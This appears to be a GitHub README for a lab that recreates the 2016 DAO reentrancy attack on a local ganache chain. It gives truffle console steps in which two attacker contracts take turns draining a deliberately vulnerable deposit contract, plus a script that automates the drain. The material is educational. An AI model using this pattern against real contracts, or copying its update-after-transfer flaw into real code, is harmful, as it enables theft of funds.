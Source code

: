 #Detailed run through a reentrancy bug attrack

In 2016 I remember watching the DAO contract getting drained of all its Ether. In 2018 I did the Consensus Solidity course. I understand what a re-entrancy bug is, but its always bothered me how exactly did the attacker get away with so much Ether.

My background is in Numerical programming, the first language I learnt was Fortran, then C. My general work flow was to write the numerical code I needed in C, compile it as DLL and then call it from Excel.

Why Excel, its a nice front end and it interfaced seamlessly with Reuters (shoutout to Amal).

C gave me speed, Excel gave me a relatively easy front end to program. Things like OOP, inheritance or function overloading have never been my thing. My programming style has always been to write short simple functions, that I debug by stepping through the code and literally see and watch what its doing.

The concept of Ethereum in 2015 really spoke to me, the idea that you could have these contracts/actors that could receive a message and then run some code and its not a cloud based system, and you are guaranteed that the code will run exactly as written its immutable,so the specified code cannot be changed and the Nakamoto consensus ensures that it is run correctly.

Of course you could just run the code on your own machine, but having a distributed network where you could interact with others, in a trustless way was completely revolutionary. I was and I still am convinced this will completely change the world. Given that I am an optimist, I also think it will result in a better world.

I was not too concerned about the DAO hack, to me it was early days, a fork was the obvious and correct solution. To the hacker I say, dude take long long look at yourself, being so destructive is not good for you.

So after all these years and in the midst of the DEFI craze I finally took the time to try and understand it more fully. In short its not that clever, I know that I am not exploring everything the hacker did, like optimize his(er) gas costs etc. The attacker was alerted to the presence of the bug, then all they had to do was design a way to reset it so that they could repeat the attack.

To my mind informing the Ethereum community, or more flamboyantly draining the entire DAO and yhen returning all the Ether, would have assured them fame and gratitude, the way they went about it, means they are just an anonymous destructive **"JOKER"** personality, its a pity because they clearly have skills. The nature of the DAO was that it had timelocks etc etc, which meant that the possibility of a hard fork was almost certain, so that the monetary advantage would probably be less than the fame and eternal gratitude of the entire community.

What I have done is write some code from the gound up to replicate the basics of re-entracy and the ping pong nature of the hack. To fully understand what occured. The code is not "right" for example all functions are defined as public, I am not using a real token. I am not using safe math. The withdrawl check is a joke. What I was after was the simplist version where I could actually see what was occuring.

Ethereum has a EVM(Ethereum virtual machine) which is basically a stack based machine, this link has an excellent explanation as too what these are https://igor.io/2013/08/28/stack-machines-fundamentals.html

**The rentrancy bug works like this:** 
The EVM is running a function the function has certain values on the stack and certain values in memory, it may also have stored certain values in the state, it then sends a message to another contract/actor the way Ethereum works if the receiving contract does not have a function that has been called, (its a whole complex encoding that goes on it uses the function signature the values being passed to the function and a SHA3/Kekkack hash of all of this to identify the function,function overloading is allowed), in the event that nothing triggers a fallback function is run. This will always run, as of this writing I am unsure if this only runs if Ether is sent, or if any message is sent?

Anyway at this point the function that is executing, transfers control of the stack to the other contract/actor this contract can now run anything that is allowed within the Gas allocated to it, after its finished it returns this new stack to the code in the original contract/actor, if that contract/actor makes the assumption that the called contract/actor did nothing it could be a catotrophic mistake. In the case of the DAO the attacker called the SplitDAO function  this function then sent ether to the attackers contract this caused the fallback function ( now called receive in solidity) to run, the attacker added his malicious code here. this is why to me, **this is a hack!** *The hack did not use the contract as written, he inserted his own code.* 
Simply the code the hacker inserted was too call the splitDAO function again to withdraw his ether again. 

I used to have a numerical analysis lecturer who used to say, to iterate is human to recurse is divine. You can see this is a kind of recursion, the issue with recursion is what will cause it to halt, to those familer with Excel, this is a circular reference. In Excel you can set recursion to true, this will allow circular references. but you also have to speficy a value for how many times it will run before deciding that the cells affected have converged that is are no longer changing, so after this number say 1024 it will just halt, so that it does not lock your machine doing some pointless calculation. In Ethereum from what I have read this limit is 128. If you are asking yourself why does the EVM have this at all. To be useful Ethereum must have this structure where sending a message to a contract will cause it to run some code. so unfortunately this is fundemental to the functioning of the system if you want a non trivial machine/network. 

The attacker withdrew 258 ETH each call, the malicious code seems to have been limited to 31 cycles, so I did the same. So in the following the 258 and the value of 31 are totally arbitary

First things first ganache-cli needs to be installed, secondly Truffle needs to be installed.
Clone the resposity change directory to the respository.

I used VisualCode with the solidity extension.
In a terminal window type
`ganache-cli -d -i 66`
The i is the code that identifies the network.
-d means always generate the same accounts and deploy contracts to the same address's
This is critical as nothing will work in the code unless this flag is used.
In another terminal or in the terminal window in VS type
`truffle console --network development`
This will bring up the truffle console
the file truffle-config.js has all the setting for this netwrok and the compiler being used.
Now type
`migrate reset` 
this will compile and deploy four contracts to the ganache instance
Migrations
Deposit
AttackA
AttackB

truffle has a very good debugger that is awesome at looking at whats actually going on
once a transactiuon is submitted and has been mined by ganache if you copy the transactionHash
and run debug transactionHash in the console it will bring up the debugger
in a terminal window its truffle transactionHash
If it says something about not finding the soutrce code thats because the ganache instance and truffle are out of sync.
the easiest way to resolve it is to quit the debbugger with q
quit truffle with .exit 
ctrl-c for ganache-cli
restart ganache-cli -d -i 66
restart truffle console --network development
migrate reset in truffle console
Should resolve it in most cases.

Debugger commands are as follows
b attack.sol:55 will set a breakpoint at line 55 of attack.sol
B all will remove all breakpoints
Then c will run until the breakpoint is hit
v will show local variables
:<|expression|> will show that <|expression|>
+:<|expression|> will add a watch expression. -:<|expresssion|> will remove it
? will list all watchs and breakpoints
; will show low level opcodes and the stack, I am unsure how to switch it off once it starts
h shows help
q quits it.

Now create an interaface for the contracts
`d = await Deposit.deployed()`
`A = await AttackA.deployed()`
`B = await AttackB.deployed()`

 Now send d some Ether
 `await d.sendTransaction({from:accounts[0],value:web3.utils.toWei('15', 'ether')})`
 The attack withdrew 258 ether each cycle
 
 Now send A 258 wei worth of Tokens
 `A.sendDeposit(258)`
 Check Ether balance of d address
 `await web3.utils.fromWei(await web3.eth.getBalance(d.address))`
 Should give
 '15'
 Check Ether balance of A and B
 `await web3.utils.fromWei(await web3.eth.getBalance(A.address))`
 should give 0
 `await web3.utils.fromWei(await web3.eth.getBalance(B.address))`
 should give 0
 Now call executeAttack
 `A.executeAttack(true)`
 Now withdraw the 258 wei
 `A.withDraw(258)`
 Check balance of d
 `await web3.utils.fromWei(await web3.eth.getBalance(d.address))`
 14.999999999999991486
 Now check balance of A
 `await web3.utils.fromWei(await web3.eth.getBalance(A.address))`
 0.000000000000008514
 Notice it withdrew 8514/258 = 33
 So it withdraws Once because of the initial call, then 31+1 times because the variable mutex in AttackA is set to 31 runs from 0
 So 32+1 = 33
 Now lets check Token balance of the attackA account in the deposit contract
 `(await d.getDepositBalance(A.address)).toString()`
 0
 Its zero, you can read the comment in the deposit.sol code about SAFE MATH
 Now check the token balance in contract B
 `(await d.getDepositBalance(B.address)).toString()`
 258
 So if we try and withdraw from contract A again it will revert because the Balance on deposit contract is zero
 `A.withDraw(258)`
 Generates a lot of stuff on the screen but in there is 
 reason: "Balance is zero"
 At this point the attack should halt, but wait we have a psoitive balance over at Contract B
 If we run 
 `B.executeAttack(true)`
 Then call
 `B.withDraw(258)`
 If we check the Balances again
 `(await d.getDepositBalance(B.address)).toString()`
  0
  So the B contract now has balance of zero on deposit
  While, wait for it... contract A has a balance of 258
  `(await d.getDepositBalance(A.address)).toString()`
  258
  Ether Balance on contract A is as expected unchanged
  `await web3.utils.fromWei(await web3.eth.getBalance(A.address)`
  0.000000000000008514
  While B is
  `await web3.utils.fromWei(await web3.eth.getBalance(B.address)`
  0.000000000000008514
  The deposit contract is now
  `await web3.utils.fromWei(await web3.eth.getBalance(d.address)`
    14.999999999999982972
    It was  14.999999999999991486
 14.999999999999991486 - 14.999999999999982972 = 8514
 Now we can run withdraw on contractA again and then on contractB until we run out of ether for Gas or the Deposit contract runs out of Ether
The attacker did the ping-pong about 50x from my reading.

So in short the splitDAO had a bug the update balance was in the wrong place, it updated after the Ether was sent instaed of updating and then 
sending the Ether. The attacker by using to two contracts used a ping-pong or bkeeping the ballon flying strategy, to keep the attack alive.

Repeating the steps above of course this can automated, it will drain all the Ether out of the deposit contract.

DAO.js contains a script that automates the above actions
To run first start truffle console
`migrate reset`
`d = await Deposit.deployed()`
Send some Ether to the deposit contract
`await d.sendTransaction({from:accounts[0],value:web3.utils.toWei('15', 'ether')})`
Once deposit contract has some Ether in it
`exec ./DAO.js`








 






